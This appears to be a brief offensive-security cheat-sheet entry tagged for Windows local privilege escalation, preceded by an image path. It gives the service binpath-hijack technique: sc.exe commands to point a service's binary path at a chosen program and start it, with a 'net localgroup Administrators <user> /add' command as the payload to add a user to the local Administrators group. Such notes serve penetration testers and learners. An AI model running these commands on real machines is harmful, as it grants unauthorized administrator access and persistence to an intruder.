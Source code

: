 # windows

#plateform/windows #target/local #cat/PRIVESC/TOKEN



## modify service bin path
"net localgroup Administrators <user> /add"
sc.exe start <service>
```cmd
sc.exe config <service> binpath= "<program>"
```